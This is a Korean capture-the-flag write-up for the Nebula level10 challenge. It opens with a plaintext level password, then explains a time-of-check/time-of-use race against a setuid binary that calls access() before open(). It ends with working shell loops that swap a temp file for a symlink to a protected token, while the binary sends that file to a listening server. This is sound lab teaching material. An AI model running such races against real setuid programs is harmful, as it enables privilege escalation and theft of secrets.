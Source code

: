 > Password: s5cAJpM8ev6XHw998pRWG728z

# 접근 방법

홈 디렉토리에 있는 level10파일을 실행해보자.

```bash
$ ./level10
./level10 file host
	sends file to host if you have access to it
```

사용법을 보니 특정 파일을 읽어서 그 내용을 원격 호스트로 보내는 프로그램인 것을 알 수 있다. 

이번에는 홈 디렉토리에 있는 파일들의 권한을 확인해보자.

```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

`level10`은`set UID/GID`가 설정되어 있는 실행파일이고

`token`파일은 소유자가 `flag10`인 파일이다.

따라서 이번 목표는 `level10`프로그램을 이용해서 `token`파일을 읽고 그 내용을 원격으로 전송받는 것이라고 유추할 수 있다.

nc의 -l 옵션을 이용해서 간단한 echo 서버를 가동시킨 뒤 level10프로그램을 동작시키면,

```bash
./level10 token 127.0.0.1
You don't have access to token
```

`set uid`로 인해 읽기/쓰기 권한이 충분한데도 권한이 없다는 결과가 나온다.

`objdump`를 이용해서 프로그램의 흐름을 확인하면

1) 인자 유효성 검사
2) `access(2)`를 이용해서 입력 파일 권한 확인
3) 원격 서버에 접속
4) 파일을 읽은 후, 내용을 서버로 전송

과 같은 흐름임을 확인할 수 있다.

어떤 부분에서 권한이 없다는 결과가 나왔는지 확인하기 위해 `strace`를 이용하면

```
access("token", R_OK)                   = -1 EACCES (Permission denied)
```

`access` 함수에서 읽기 권한 확인이 실패한 것을 볼 수 있다.

이는 `access`함수가 `effective UID/GID`가 아닌 `real UID/GID`를 체크해서 생기는 문제이다. 따라서 `access`만 넘어갈 수 있다면, 뒤에 있을 `open / read`함수는 문제 없이 작동할 것으로 보인다.

`access`함수 호출과 동시에 `open`호출이 일어날 수 없다는 점을 이용해서 프로그램이 `access`함수를 호출할 때에는 권한이 있는 일반 파일을 읽게 한 후, `access`함수가 종료된 직후 같은 이름의 파일을 `~/token`에 대한 심볼릭 링크로 대체하면 `access`함수의 권한 확인을 통과하면서 `~/token`의 내용을 읽을 수 있다. 


### server
```bash
python3 server.py
```

### client 1
```bash
while true; do ~/level10 /tmp/temp [server ip address]; done
```

### client 2
```bash
# 아래 두 명령을 반복.

rm -f /tmp/temp && touch /tmp/temp
rm -f /tmp/temp && ln -s ~/token /tmp/temp
```